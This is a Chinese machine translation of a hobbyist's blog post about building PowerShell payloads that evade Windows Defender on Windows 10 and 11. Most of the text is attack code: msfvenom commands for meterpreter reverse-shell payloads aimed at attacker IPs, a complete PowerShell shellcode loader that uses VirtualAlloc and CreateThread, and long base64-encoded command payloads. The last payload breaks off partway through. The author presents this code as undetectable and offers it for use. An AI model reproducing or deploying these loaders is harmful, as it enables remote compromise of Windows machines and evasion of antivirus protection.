

# 无法检测 Windows 10 和 11 的有效负载

> 原文：<https://infosecwriteups.com/how-i-am-winning-battle-with-windows-10-and-11-security-and-avoiding-detection-6ea9f954b2a7?source=collection_archive---------0----------------------->



首先，要说我不是一个职业道德黑客，我是一个大爱好者，我的爱好是黑客，而且很长时间以来微软视窗安全是我最喜欢的领域之一。我总是想在他们的安全措施面前领先一步，直到现在我都很成功。为什么我指出我不是专业人士；你能想象一个专业人员能做什么吗，如果一个狂热分子能扰乱他们的安全。

在这个故事中，我将谈论攻击者如何避免检测到他们的病毒，以及安全性如何在这些年里变得越来越强。我还将向您展示，即使反病毒软件供应商尽了很大努力，仍然有可能创建不可检测的有效载荷。最后，我会给你我的 github 库的链接，在那里你可以找到不可检测的有效载荷代码，这些代码已经存在了两年多。当我昨天看到它还在工作时，我震惊了。

好，我们开始吧。如何避免被发现是每个攻击者的问题。在那些日子里，不容易创造有效载荷，以避免检测和触发警报。包括 microfoft defender 在内的所有反病毒软件供应商都在尽最大努力保护用户免受威胁，并且每天都在做得越来越好。他们不断更新检测系统，并用病毒特征填充数据库。一旦新病毒在野外出现，补丁的出现只是时间问题。从另一边看，攻击者也没有双手交叉坐在那里。他们每天都在寻找新的方法来避免检测，他们正在编译新的代码和重新编译现有的代码，目的是避免检测和损害系统。请记住，没有什么保护措施能百分之百地保护你。这是防病毒供应商和攻击者之间永无止境的猫捉老鼠游戏，也是永远不会结束的游戏，攻击者总是领先一步。

在这篇文章中，我将依靠 powershell 脚本语言，它仍然是创建有效负载和损害 windows 操作系统的最好、最流行和最常用的语言。Powershell 是基于任务的命令行 shell 和脚本语言，构建于. NET. powershell 之上，可帮助系统管理员和高级用户快速自动执行管理操作系统和进程的任务。但我应该提到，我们需要考虑的是，powershell payloads 和 Microsoft defender 之间的游戏将会结束，这只是一个时间问题，因为微软真的付出了很大的努力来保护系统。为什么，你会看到在进一步的文本。

在接下来的文字中，我将向你展示有效载荷在过去是如何产生的，以及今天是如何产生的，我还将描述探测在中期是如何发展的。

在过去，你只需要在 msfvenom 中使用一行代码就足够了，MSF venom 是生成有效负载的代码。但是那些时代已经一去不复返了。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=5555 -f exe > / root/Desktop/reverse_tcp.exe
```

**或者对于原始 powershell 负载:**

```
msfvenom –payload windows/meterpreter/reverse_http LHOST=192.168.1.104 LPORT=8080 –format psh –smallest –platform win –arch x86
```

**哪个给你下一个输出:**

```
$KrJpyZMB = @”
[DllImport(“kernel32.dll”)]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport(“kernel32.dll”)]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
“@

$bvznJqWjba = Add-Type -memberDefinition $KrJpyZMB -Name “Win32” -namespace Win32Functions -passthru

[Byte[]] $zqiGAfUTkxCBu = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x6e,0x65,0x74,0x0,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x3,0x53,0x53,0x68,0x90,0x1f,0x0,0x0,0xe8,0x9c,0x0,0x0,0x0,0x2f,0x31,0x73,0x41,0x4c,0x31,0x42,0x6d,0x36,0x30,0x36,0x59,0x31,0x46,0x6a,0x51,0x58,0x61,0x52,0x49,0x43,0x56,0x41,0x77,0x4e,0x62,0x77,0x6c,0x79,0x73,0x0,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x2,0x60,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x16,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xe1,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcd,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x7d,0xff,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x31,0x2e,0x31,0x30,0x34,0x0

$VifvHnUwWmKQjn = $bvznJqWjba::VirtualAlloc(0,[Math]::Max($zqiGAfUTkxCBu.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($zqiGAfUTkxCBu,0,$VifvHnUwWmKQjn,$zqiGAfUTkxCBu.Length)

$bvznJqWjba::CreateThread(0,0,$VifvHnUwWmKQjn,0,0,0)
```

但是很快有效载荷的基本创建被修补，因此攻击者被迫寻找新的方法。很快他们发现有效载荷的编码可以避免被发现。由于编码的有效载荷 windows defender 和其他反病毒供应商不知道什么是隐藏在编码字符串，所以它很容易危及系统。

**这里有几个用不同的有效载荷生成器创建的编码有效载荷的例子。**

**用 msfvenom 创建的有效载荷:**

*请注意，在这种情况下，使用的是 base64 编码器，默认情况下不会安装在 metasploit 中。*

```
msfvenom –payload windows/meterpreter/reverse_http LHOST=192.168.1.104 LPORT=8080 –format psh –smallest | msfvenom –payload – –platform win –arch x86 –encoder base64 NOEXIT SYSWOW6c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -NoExit -EncodedCommand JABHAGwAeQBaAEgAVQBsAEkAVgBkAEgAcgAgAD0AIABAACIADQAKAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIAKQBdAA0ACgBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgASQBuAHQAUAB0AHIAIABsAHAAQQBkAGQAcgBlAHMAcwAsACAAdQBpAG4AdAAgAGQAdwBTAGkAegBlACwAIAB1AGkAbgB0ACAAZgBsAEEAbABsAG8AYwBhAHQAaQBvAG4AVAB5AHAAZQAsACAAdQBpAG4AdAAgAGYAbABQAHIAbwB0AGUAYwB0ACkAOwANAAoAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgApAF0ADQAKAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAEkAbgB0AFAAdAByACAAQwByAGUAYQB0AGUAVABoAHIAZQBhAGQAKABJAG4AdABQAHQAcgAgAGwAcABUAGgAcgBlAGEAZABBAHQAdAByAGkAYgB1AHQAZQBzACwAIAB1AGkAbgB0ACAAZAB3AFMAdABhAGMAawBTAGkAegBlACwAIABJAG4AdABQAHQAcgAgAGwAcABTAHQAYQByAHQAQQBkAGQAcgBlAHMAcwAsACAASQBuAHQAUAB0AHIAIABsAHAAUABhAHIAYQBtAGUAdABlAHIALAAgAHUAaQBuAHQAIABkAHcAQwByAGUAYQB0AGkAbwBuAEYAbABhAGcAcwAsACAASQBuAHQAUAB0AHIAIABsAHAAVABoAHIAZQBhAGQASQBkACkAOwANAAoAIgBAAA0ACgANAAoAJABaAGoAQgBJAEcARQBkAFMAeABmAG4AQgBmAFkAUgAgAD0AIABBAGQAZAAtAFQAeQBwAGUAIAAtAG0AZQBtAGIAZQByAEQAZQBmAGkAbgBpAHQAaQBvAG4AIAAkAEcAbAB5AFoASABVAGwASQBWAGQASAByACAALQBOAGEAbQBlACAAIgBXAGkAbgAzADIAIgAgAC0AbgBhAG0AZQBzAHAAYQBjAGUAIABXAGkAbgAzADIARgB1AG4AYwB0AGkAbwBuAHMAIAAtAHAAYQBzAHMAdABoAHIAdQANAAoADQAKAFsAQgB5AHQAZQBbAF0AXQAgACQARgB3AFgAZgBLAHoAYwB6AHIAaAByAG4AZgAgAD0AIAAwAHgAZgBjACwAMAB4AGUAOAAsADAAeAA4ADIALAAwAHgAMAAsADAAeAAwACwAMAB4ADAALAAwAHgANgAwACwAMAB4ADgAOQAsADAAeABlADUALAAwAHgAMwAxACwAMAB4AGMAMAAsADAAeAA2ADQALAAwAHgAOABiACwAMAB4ADUAMAAsADAAeAAzADAALAAwAHgAOABiACwAMAB4ADUAMgAsADAAeABjACwAMAB4ADgAYgAsADAAeAA1ADIALAAwAHgAMQA0ACwAMAB4ADgAYgAsADAAeAA3ADIALAAwAHgAMgA4ACwAMAB4AGYALAAwAHgAYgA3ACwAMAB4ADQAYQAsADAAeAAyADYALAAwAHgAMwAxACwAMAB4AGYAZgAsADAAeABhAGMALAAwAHgAMwBjACwAMAB4ADYAMQAsADAAeAA3AGMALAAwAHgAMgAsADAAeAAyAGMALAAwAHgAMgAwACwAMAB4AGMAMQAsADAAeABjAGYALAAwAHgAZAAsADAAeAAxACwAMAB4AGMANwAsADAAeABlADIALAAwAHgAZgAyACwAMAB4ADUAMgAsADAAeAA1ADcALAAwAHgAOABiACwAMAB4ADUAMgAsADAAeAAxADAALAAwAHgAOABiACwAMAB4ADQAYQAsADAAeAAzAGMALAAwAHgAOABiACwAMAB4ADQAYwAsADAAeAAxADEALAAwAHgANwA4ACwAMAB4AGUAMwAsADAAeAA0ADgALAAwAHgAMQAsADAAeABkADEALAAwAHgANQAxACwAMAB4ADgAYgAsADAAeAA1ADkALAAwAHgAMgAwACwAMAB4ADEALAAwAHgAZAAzACwAMAB4ADgAYgAsADAAeAA0ADkALAAwAHgAMQA4ACwAMAB4AGUAMwAsADAAeAAzAGEALAAwAHgANAA5ACwAMAB4ADgAYgAsADAAeAAzADQALAAwAHgAOABiACwAMAB4ADEALAAwAHgAZAA2ACwAMAB4ADMAMQAsADAAeABmAGYALAAwAHgAYQBjACwAMAB4AGMAMQAsADAAeABjAGYALAAwAHgAZAAsADAAeAAxACwAMAB4AGMANwAsADAAeAAzADgALAAwAHgAZQAwACwAMAB4ADcANQAsADAAeABmADYALAAwAHgAMwAsADAAeAA3AGQALAAwAHgAZgA4ACwAMAB4ADMAYgAsADAAeAA3AGQALAAwAHgAMgA0ACwAMAB4ADcANQAsADAAeABlADQALAAwAHgANQA4ACwAMAB4ADgAYgAsADAAeAA1ADgALAAwAHgAMgA0ACwAMAB4ADEALAAwAHgAZAAzACwAMAB4ADYANgAsADAAeAA4AGIALAAwAHgAYwAsADAAeAA0AGIALAAwAHgAOABiACwAMAB4ADUAOAAsADAAeAAxAGMALAAwAHgAMQAsADAAeABkADMALAAwAHgAOABiACwAMAB4ADQALAAwAHgAOABiACwAMAB4ADEALAAwAHgAZAAwACwAMAB4ADgAOQAsADAAeAA0ADQALAAwAHgAMgA0ACwAMAB4ADIANAAsADAAeAA1AGIALAAwAHgANQBiACwAMAB4ADYAMQAsADAAeAA1ADkALAAwAHgANQBhACwAMAB4ADUAMQAsADAAeABmAGYALAAwAHgAZQAwACwAMAB4ADUAZgAsADAAeAA1AGYALAAwAHgANQBhACwAMAB4ADgAYgAsADAAeAAxADIALAAwAHgAZQBiACwAMAB4ADgAZAAsADAAeAA1AGQALAAwAHgANgA4ACwAMAB4ADYAZQAsADAAeAA2ADUALAAwAHgANwA0ACwAMAB4ADAALAAwAHgANgA4ACwAMAB4ADcANwAsADAAeAA2ADkALAAwAHgANgBlACwAMAB4ADYAOQAsADAAeAA1ADQALAAwAHgANgA4ACwAMAB4ADQAYwAsADAAeAA3ADcALAAwAHgAMgA2ACwAMAB4ADcALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAAzADEALAAwAHgAZABiACwAMAB4ADUAMwAsADAAeAA1ADMALAAwAHgANQAzACwAMAB4ADUAMwAsADAAeAA1ADMALAAwAHgANgA4ACwAMAB4ADMAYQAsADAAeAA1ADYALAAwAHgANwA5ACwAMAB4AGEANwAsADAAeABmAGYALAAwAHgAZAA1ACwAMAB4ADUAMwAsADAAeAA1ADMALAAwAHgANgBhACwAMAB4ADMALAAwAHgANQAzACwAMAB4ADUAMwAsADAAeAA2ADgALAAwAHgAOQAwACwAMAB4ADEAZgAsADAAeAAwACwAMAB4ADAALAAwAHgAZQA4ACwAMAB4ADkAYwAsADAAeAAwACwAMAB4ADAALAAwAHgAMAAsADAAeAAyAGYALAAwAHgANgBjACwAMAB4ADQAMwAsADAAeAA2AGIALAAwAHgANAA1ACwAMAB4ADYAMwAsADAAeAAzADUALAAwAHgANgAxACwAMAB4ADQANgAsADAAeAA3ADgALAAwAHgANQA0ACwAMAB4ADQAOQAsADAAeAA0ADEALAAwAHgANQA5ACwAMAB4ADQAMQAsADAAeAA0ADYALAAwAHgANgA4ACwAMAB4ADUAOAAsADAAeAA0ADcALAAwAHgANQAxACwAMAB4ADUAZgAsADAAeAAzADgALAAwAHgANAAxACwAMAB4ADMAMwAsADAAeAAzADQALAAwAHgANAA2ACwAMAB4ADQANAAsADAAeAA3ADYALAAwAHgANwA5ACwAMAB4ADcAOAAsADAAeAAwACwAMAB4ADUAMAAsADAAeAA2ADgALAAwAHgANQA3ACwAMAB4ADgAOQAsADAAeAA5AGYALAAwAHgAYwA2ACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgAOAA5ACwAMAB4AGMANgAsADAAeAA1ADMALAAwAHgANgA4ACwAMAB4ADAALAAwAHgAMgAsADAAeAA2ADAALAAwAHgAOAA0ACwAMAB4ADUAMwAsADAAeAA1ADMALAAwAHgANQAzACwAMAB4ADUANwAsADAAeAA1ADMALAAwAHgANQA2ACwAMAB4ADYAOAAsADAAeABlAGIALAAwAHgANQA1ACwAMAB4ADIAZQAsADAAeAAzAGIALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAA5ADYALAAwAHgANgBhACwAMAB4AGEALAAwAHgANQBmACwAMAB4ADUAMwAsADAAeAA1ADMALAAwAHgANQAzACwAMAB4ADUAMwAsADAAeAA1ADYALAAwAHgANgA4ACwAMAB4ADIAZAAsADAAeAA2ACwAMAB4ADEAOAAsADAAeAA3AGIALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAA4ADUALAAwAHgAYwAwACwAMAB4ADcANQAsADAAeAAxADYALAAwAHgANgA4ACwAMAB4ADgAOAAsADAAeAAxADMALAAwAHgAMAAsADAAeAAwACwAMAB4ADYAOAAsADAAeAA0ADQALAAwAHgAZgAwACwAMAB4ADMANQAsADAAeABlADAALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAA0AGYALAAwAHgANwA1ACwAMAB4AGUAMQAsADAAeAA2ADgALAAwAHgAZgAwACwAMAB4AGIANQAsADAAeABhADIALAAwAHgANQA2ACwAMAB4AGYAZgAsADAAeABkADUALAAwAHgANgBhACwAMAB4ADQAMAAsADAAeAA2ADgALAAwAHgAMAAsADAAeAAxADAALAAwAHgAMAAsADAAeAAwACwAMAB4ADYAOAAsADAAeAAwACwAMAB4ADAALAAwAHgANAAwACwAMAB4ADAALAAwAHgANQAzACwAMAB4ADYAOAAsADAAeAA1ADgALAAwAHgAYQA0ACwAMAB4ADUAMwAsADAAeABlADUALAAwAHgAZgBmACwAMAB4AGQANQAsADAAeAA5ADMALAAwAHgANQAzACwAMAB4ADUAMwAsADAAeAA4ADkALAAwAHgAZQA3ACwAMAB4ADUANwAsADAAeAA2ADgALAAwAHgAMAAsADAAeAAyADAALAAwAHgAMAAsADAAeAAwACwAMAB4ADUAMwAsADAAeAA1ADYALAAwAHgANgA4ACwAMAB4ADEAMgAsADAAeAA5ADYALAAwAHgAOAA5ACwAMAB4AGUAMgAsADAAeABmAGYALAAwAHgAZAA1ACwAMAB4ADgANQAsADAAeABjADAALAAwAHgANwA0ACwAMAB4AGMAZAAsADAAeAA4AGIALAAwAHgANwAsADAAeAAxACwAMAB4AGMAMwAsADAAeAA4ADUALAAwAHgAYwAwACwAMAB4ADcANQAsADAAeABlADUALAAwAHgANQA4ACwAMAB4AGMAMwAsADAAeAA1AGYALAAwAHgAZQA4ACwAMAB4ADcAZAAsADAAeABmAGYALAAwAHgAZgBmACwAMAB4AGYAZgAsADAAeAAzADEALAAwAHgAMwA5ACwAMAB4ADMAMgAsADAAeAAyAGUALAAwAHgAMwAxACwAMAB4ADMANgAsADAAeAAzADgALAAwAHgAMgBlACwAMAB4ADMAMQAsADAAeAAyAGUALAAwAHgAMwAxACwAMAB4ADMAMAAsADAAeAAzADQALAAwAHgAMAANAAoADQAKAA0ACgAkAGsAVwBpAFAAYgB4AFIATwBlAFoAaQBKAHAASQBRACAAPQAgACQAWgBqAEIASQBHAEUAZABTAHgAZgBuAEIAZgBZAFIAOgA6AFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgAMAAsAFsATQBhAHQAaABdADoAOgBNAGEAeAAoACQARgB3AFgAZgBLAHoAYwB6AHIAaAByAG4AZgAuAEwAZQBuAGcAdABoACwAMAB4ADEAMAAwADAAKQAsADAAeAAzADAAMAAwACwAMAB4ADQAMAApAA0ACgANAAoAWwBTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwAuAE0AYQByAHMAaABhAGwAXQA6ADoAQwBvAHAAeQAoACQARgB3AFgAZgBLAHoAYwB6AHIAaAByAG4AZgAsADAALAAkAGsAVwBpAFAAYgB4AFIATwBlAFoAaQBKAHAASQBRACwAJABGAHcAWABmAEsAegBjAHoAcgBoAHIAbgBmAC4ATABlAG4AZwB0AGgAKQANAAoADQAKACQAWgBqAEIASQBHAEUAZABTAHgAZgBuAEIAZgBZAFIAOgA6AEMAcgBlAGEAdABlAFQAaAByAGUAYQBkACgAMAAsADAALAAkAGsAVwBpAFAAYgB4AFIATwBlAFoAaQBKAHAASQBRACwAMAAsADAALAAwACkADQAKAA==4
```

**使用 fatra 创建的有效负载:**

```
powershell -w 1 -C “sv di -;sv qG ec;sv Foj ((gv di).value.toString()+(gv qG).value.toString());powershell (gv Foj).value.toString() ‘JABqAEYARgAgAD0AIAAnACQATABaAHQAIAA9ACAAJwAnAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIAKQBdAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAEkAbgB0AFAAdAByACAAVgBpAHIAdAB1AGEAbABBAGwAbABvAGMAKABJAG4AdABQAHQAcgAgAGwAcABBAGQAZAByAGUAcwBzACwAIAB1AGkAbgB0ACAAZAB3AFMAaQB6AGUALAAgAHUAaQBuAHQAIABmAGwAQQBsAGwAbwBjAGEAdABpAG8AbgBUAHkAcABlACwAIAB1AGkAbgB0ACAAZgBsAFAAcgBvAHQAZQBjAHQAKQA7AFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIAKQBdAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAEkAbgB0AFAAdAByACAAQwByAGUAYQB0AGUAVABoAHIAZQBhAGQAKABJAG4AdABQAHQAcgAgAGwAcABUAGgAcgBlAGEAZABBAHQAdAByAGkAYgB1AHQAZQBzACwAIAB1AGkAbgB0ACAAZAB3AFMAdABhAGMAawBTAGkAegBlACwAIABJAG4AdABQAHQAcgAgAGwAcABTAHQAYQByAHQAQQBkAGQAcgBlAHMAcwAsACAASQBuAHQAUAB0AHIAIABsAHAAUABhAHIAYQBtAGUAdABlAHIALAAgAHUAaQBuAHQAIABkAHcAQwByAGUAYQB0AGkAbwBuAEYAbABhAGcAcwAsACAASQBuAHQAUAB0AHIAIABsAHAAVABoAHIAZQBhAGQASQBkACkAOwBbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBtAHMAdgBjAHIAdAAuAGQAbABsACIAKQBdAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAEkAbgB0AFAAdAByACAAbQBlAG0AcwBlAHQAKABJAG4AdABQAHQAcgAgAGQAZQBzAHQALAAgAHUAaQBuAHQAIABzAHIAYwAsACAAdQBpAG4AdAAgAGMAbwB1AG4AdAApADsAJwAnADsAJAB3ACAAPQAgAEEAZABkAC0AVAB5AHAAZQAgAC0AbQBlAG0AYgBlAHIARABlAGYAaQBuAGkAdABpAG8AbgAgACQATABaAHQAIAAtAE4AYQBtAGUAIAAiAFcAaQBuADMAMgAiACAALQBuAGEAbQBlAHMAcABhAGMAZQAgAFcAaQBuADMAMgBGAHUAbgBjAHQAaQBvAG4AcwAgAC0AcABhAHMAcwB0AGgAcgB1ADsAWwBCAHkAdABlAFsAXQBdADsAWwBCAHkAdABlAFsAXQBdACQAegAgAD0AIAAwAHgAYgA4ACwAMAB4ADgAZAAsADAAeAAwADUALAAwAHgAYgBmACwAMAB4ADAAMgAsADAAeABkAGEALAAwAHgAZAAyACwAMAB4AGQAOQAsADAAeAA3ADQALAAwAHgAMgA0ACwAMAB4AGYANAAsADAAeAA1AGEALAAwAHgAMgA5ACwAMAB4AGMAOQAsADAAeABiADEALAAwAHgANQBiACwAMAB4ADgAMwAsADAAeABjADIALAAwAHgAMAA0ACwAMAB4ADMAMQAsADAAeAA0ADIALAAwAHgAMABmACwAMAB4ADAAMwAsADAAeAA0ADIALAAwAHgAOAAyACwAMAB4AGUANwAsADAAeAA0AGEALAAwAHgAZgBlACwAMAB4ADcANAAsADAAeAA2ADUALAAwAHgAYgA0ACwAMAB4AGYAZgAsADAAeAA4ADQALAAwAHgAMABhACwAMAB4ADMAYwAsADAAeAAxAGEALAAwAHgAYgA1ACwAMAB4ADAAYQAsADAAeAA1AGEALAAwAHgANgBlACwAMAB4AGUANQAsADAAeABiAGEALAAwAHgAMgA4ACwAMAB4ADIAMgAsADAAeAAwADkALAAwAHgAMwAwACwAMAB4ADcAYwAsADAAeABkADcALAAwAHgAOQBhACwAMAB4ADMANAAsADAAeABhADkALAAwAHgAZAA4ACwAMAB4ADIAYgAsADAAeABmADIALAAwAHgAOABmACwAMAB4AGQANwAsADAAeABhAGMALAAwAHgAYQBmACwAMAB4AGUAYwAsADAAeAA3ADYALAAwAHgAMgBlACwAMAB4AGIAMgAsADAAeAAyADAALAAwAHgANQA5ACwAMAB4ADAAZgAsADAAeAA3AGQALAAwAHgAMwA1ACwAMAB4ADkAOAAsADAAeAA0ADgALAAwAHgANgAwACwAMAB4AGIANAAsADAAeABjADgALAAwAHgAMAAxACwAMAB4AGUAZQAsADAAeAA2AGIALAAwAHgAZgBkACwAMAB4ADIANgAsADAAeABiAGEALAAwAHgAYgA3ACwAMAB4ADcANgAsADAAeAA3ADQALAAwAHgAMgBhACwAMAB4AGIAMAAsADAAeAA2AGIALAAwAHgAYwBjACwAMAB4ADQAZAAsADAAeAA5ADEALAAwAHgAMwBkACwAMAB4ADQANwAsADAAeAAxADQALAAwAHgAMwAxACwAMAB4AGIAZgAsADAAeAA4ADQALAAwAHgAMgBjACwAMAB4ADcAOAAsADAAeABhADcALAAwAHgAYwA5ACwAMAB4ADAAOQAsADAAeAAzADIALAAwAHgANQBjACwAMAB4ADMAOQAsADAAeABlADUALAAwAHgAYwA1ACwAMAB4AGIANAAsADAAeAA3ADAALAAwAHgAMAA2ACwAMAB4ADYAOQAsADAAeABmADkALAAwAHgAYgBkACwAMAB4AGYANQAsADAAeAA3ADMALAAwAHgAMwBkACwAMAB4ADcAOQAsADAAeABlADYALAAwAHgAMAAxACwAMAB4ADMANwAsADAAeAA3AGEALAAwAHgAOQBiACwAMAB4ADEAMQAsADAAeAA4AGMALAAwAHgAMAAxACwAMAB4ADQANwAsADAAeAA5ADcALAAwAHgAMQA3ACwAMAB4AGEAMQAsADAAeAAwAGMALAAwAHgAMABmACwAMAB4AGYAYwAsADAAeAA1ADAALAAwAHgAYwAwACwAMAB4AGQANgAsADAAeAA3ADcALAAwAHgANQBlACwAMAB4AGEAZAAsADAAeAA5AGQALAAwAHgAZAAwACwAMAB4ADQAMgAsADAAeAAzADAALAAwAHgANwAxACwAMAB4ADYAYgAsADAAeAA3AGUALAAwAHgAYgA5ACwAMAB4ADcANAAsADAAeABiAGMALAAwAHgAZgA3ACwAMAB4AGYAOQAsADAAeAA1ADIALAAwAHgAMQA4ACwAMAB4ADUAYwAsADAAeAA1ADkALAAwAHgAZgBhACwAMAB4ADMAOQAsADAAeAAzADgALAAwAHgAMABjACwAMAB4ADAAMwAsADAAeAA1ADkALAAwAHgAZQAzACwAMAB4AGYAMQAsADAAeABhADEALAAwAHgAMQAxACwAMAB4ADAAOQAsADAAeABlADUALAAwAHgAZABiACwAMAB4ADcAYgAsADAAeAA0ADUALAAwAHgAOQA3ACwAMAB4ADgANgAsADAAeABmADcALAAwAHgAOQA1ACwAMAB4ADAAZgAsADAAeAAzAGUALAAwAHgAOQAxACwAMAB4AGYAYgAsADAAeABhADYALAAwAHgAOQA0ACwAMAB4ADAAOQAsADAAeAA0AGYALAAwAHgANABlACwAMAB4ADMAMwAsADAAeABjAGQALAAwAHgAYgAwACwAMAB4ADYANQAsADAAeAAwAGEALAAwAHgAMABhACwAMAB4ADEAZAAsADAAeABkADUALAAwAHgAMwBlACwAMAB4AGYAZgAsADAAeABmADIALAAwAHgAYgAxACwAMAB4AGYAYQAsADAAeABhADkALAAwAHgAOABkACwAMAB4AGUANgAsADAAeAAwADQALAAwAHgAOAAwACwAMAB4ADMAZQAsADAAeABiAGEALAAwAHgAOQAwACwAMAB4ADIAOAAsADAAeAA5ADMALAAwAHgANgBmACwAMAB4ADAAZAAsADAAeAA3ADMALAAwAHgAMAAyACwAMAB4ADkAMAAsADAAeABjAGQALAAwAHgANgAzACwAMAB4AGIAOAAsADAAeAA5ADAALAAwAHgAYwBkACwAMAB4ADcAMwAsADAAeABlAGYALAAwAHgAZAA1ACwAMAB4AGEAYgAsADAAeAAyADMALAAwAHgAYgBlACwAMAB4AGUAMQAsADAAeAA0ADQALAAwAHgAOQA2ACwAMAB4ADcAOAAsADAAeAA0ADUALAAwAHgAOQAyACwAMAB4ADQAZgAsADAAeAAxADQALAAwAHgAMwBmACwAMAB4ADgAZAAsADAAeAAzAGQALAAwAHgAYgBiACwAMAB4AGQAYQAsADAAeAAxADUALAAwAHgAYQBkACwAMAB4ADIANQAsADAAeAA1AGYALAAwAHgAYwAxACwAMAB4ADUAZQAsADAAeABjAGEALAAwAHgAYwBhACwAMAB4ADYAOAAsADAAeABlADIALAAwAHgANQA5ACwAMAB4ADgAMgAsADAAeAA3ADIALAAwAHgAYgA0ACwAMAB4ADAAOQAsADAAeAAzAGIALAAwAHgAZgBhACwAMAB4AGEAYgAsADAAeAAwAGYALAAwAHgAMwBjACwAMAB4ADIAOQAsADAAeAA1AGEALAAwAHgANAA5ACwAMAB4ADkAMAAsADAAeABiAGEALAAwAHgANQBkACwAMAB4ADUANwAsADAAeAA3ADcALAAwAHgAYgBmACwAMAB4ADAAZAAsADAAeAAwADQALAAwAHgAMgA0ACwAMAB4AGUAOAAsADAAeABlADIALAAwAHgAZgBjACwAMAB4AGEAMgAsADAAeABmAGQALAAwAHgANQAwACwAMAB4ADIAZQAsADAAeAAwADgALAAwAHgAZgBkACwAMAB4ADgAZQAsADAAeABiADgALAAwAHgAMAA0ACwAMAB4ADAAYgAsADAAeAA2AGUALAAwAHgAOQA3ACwA